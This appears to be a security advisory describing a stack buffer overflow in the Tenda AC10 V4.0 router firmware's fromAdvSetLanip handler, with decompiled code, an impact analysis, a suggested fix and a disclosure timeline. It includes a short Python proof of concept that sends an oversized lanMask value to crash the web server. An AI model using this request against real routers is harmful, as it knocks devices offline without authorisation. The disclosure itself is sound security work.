

# [TENDA] [AC10 V4.0] [US_AC10V4.0si_V16.03.10.09_multi_TDE01] — `fromAdvSetLanip` GetValue/SetValue Stack-Based Buffer Overflow

## Summary

A stack-based buffer overflow exists in the web management interface of `[Product]`. The HTTP handler `fromAdvSetLanip` stores attacker-controlled values into NVRAM without length validation, and the configuration read routine backing `GetValue` copies stored values into fixed-size stack buffers using the *source* length as the copy bound, ignoring the destination buffer's actual capacity. An authenticated administrator can persist an oversized configuration value and trigger memory corruption when that value is subsequently read into an undersized stack buffer. The issue has been confirmed to crash the affected process.

## Vulnerability Type

- **CWE-121:** Stack-based Buffer Overflow
- **CWE-787:** Out-of-bounds Write

## Affected Component

| Field | Value |
|---|---|
| Vendor | `Tenda` |
| Product | `AC10 V4.0` |
| Firmware version | `US_AC10V4.0si_V16.03.10.09_multi_TDE01.bin` |
| Binary | `httpd & netctrl` |
| Handler | `fromAdvSetLanip` |
| Backend routine | `cfms_mib_proc_handle` (config MIB GET/SET handler behind `GetValue` / `SetValue`) |

## Technical Description

`SetValue` accepts a configuration value of up to 1499 bytes (`0x5dc`) and persists it to NVRAM with no upper bound enforced relative to any consumer's buffer:

```c
char local_5f4[1500];
...
strncpy(local_5f4, param_2, 0x5dc);   // SET path: up to 1499 bytes persisted
```

On the GET path, the retrieved value is copied into the caller-supplied destination buffer (`param_2`) using the source length as the `strncpy` bound, with no reference to the destination's actual capacity:

```c
case 5:
case 0x18:
    ...
    sVar1 = strlen(local_5f4);          // length of value returned from cfmd
    strncpy(param_2, local_5f4, sVar1); // bound = strlen(source), NOT sizeof(dest)
    sVar1 = strnlen(local_5f4, 0x5dc);
    param_2[sVar1] = '\0';
```

Because the bound equals `strlen(source)`, this `strncpy` behaves identically to `strcpy` and provides no protection. Any caller of `GetValue` whose destination buffer is smaller than the stored value overflows the stack.

The handler `fromAdvSetLanip` is **both the write and the read path**. It takes web parameters via `websGetVar` (`lanIp`, `lanMask`, `startIp`, `endIp`, DNS fields) without format or length validation and persists them through `SetValue`. The same configuration keys are later read back into small fixed-size stack buffers:

```c
char acStack_80[8];    // dhcps.en — 8 bytes
char acStack_1a0[16];  // lan.ip   — 16 bytes
char acStack_190[16];  // lan.mask — 16 bytes
GetValue("dhcps.en", acStack_80);
GetValue("lan.ip",   acStack_1a0);
GetValue("lan.mask", acStack_190);
```

A persisted value of several hundred bytes (well within the 1499-byte SET limit) overflows these buffers, corrupting the saved frame pointer and saved return address on the MIPS stack. The condition has been verified to crash the handling process.

## Attack Prerequisites

- Network access to the web management interface
- Valid administrator authentication (the `fromAdvSetLanip` handler is reached post-login)

## Impact

Stack memory corruption leading to denial of service (confirmed process crash). Overwrite of the saved return address is possible; arbitrary code execution may be achievable subject to the platform's exploit mitigations, but has **not** been demonstrated.

## Proof of Concept

**Prerequisites:** Administrator access to the web interface.

```python
import requests
url = "http://192.168.0.1/goform/AdvSetLanip"
# Step 1: Store oversized payload to NVRAM
data = {"lanMask": "A" * 1000}
requests.post(url, data=data)
# Step 2: Trigger overflow → crash
data = {"lanIp": "192.168.0.1"}
requests.post(url, data=data)
# Result: httpd daemon crashes
```

## Suggested Fix

- The `GetValue` API must pass the destination buffer size and bound the copy accordingly, e.g. `strncpy(param_2, local_5f4, dst_len - 1)` with an explicit `dst_len` parameter, rejecting or truncating values that exceed it.
- `fromAdvSetLanip` should validate that `lanIp` / `lanMask` (and the DHCP/DNS fields) are well-formed and length-limited before calling `SetValue`.

## Disclosure Timeline

| Date | Event |
|---|---|
| 2026-06-13 | Vulnerability discovered |
| 2026-06-14 | Vendor notified |
